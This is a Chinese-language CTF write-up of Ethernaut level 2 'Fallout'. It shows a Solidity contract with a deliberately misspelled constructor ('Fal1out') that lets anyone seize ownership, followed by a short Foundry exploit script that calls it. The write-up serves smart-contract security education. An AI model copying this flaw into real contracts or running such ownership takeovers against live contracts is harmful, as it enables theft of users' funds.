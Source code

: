 # Level 2 - Fallout
## 題目
[Fallout](https://ethernaut.openzeppelin.com/level/0x676e57FdBbd8e5fE1A7A3f4Bb1296dAC880aa639)

### 通關條件
獲得下面合約的所有權來完成這一關
可能會有用的資訊：Solidity, Remix IDE
### 合約內容
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```
## 解題
這題的目標跟上一題是一樣的，取代合約的 onwer，那可以在第 14 行看到 `owner = msg.sender` 也就是說只要呼叫 `Fal1out()` 就可以取代 owner 了，攻擊合約如下：
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.6.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/02_Fallout.sol";

contract ExploitScript is Script {
    Fallout level2 = Fallout(payable(your_challenge_address));

    function run() public {
        vm.startBroadcast();

        level2.Fal1out();

        vm.stopBroadcast();
    }
}
```
這一題主要是想考 `constructor()` 以及舊版 Solidity 的一些安全問題，但是在現在其實不太會碰到了，對於 `constructor()` 的用法以及歷史可以參考以下文章：
- [[中文] WTF Solidity极简入门: 11. 构造函数和修饰器](https://github.com/AmazingAng/WTF-Solidity/tree/main/11_Modifier)
- [[EN] Solidity by Example](https://solidity-by-example.org/constructor/)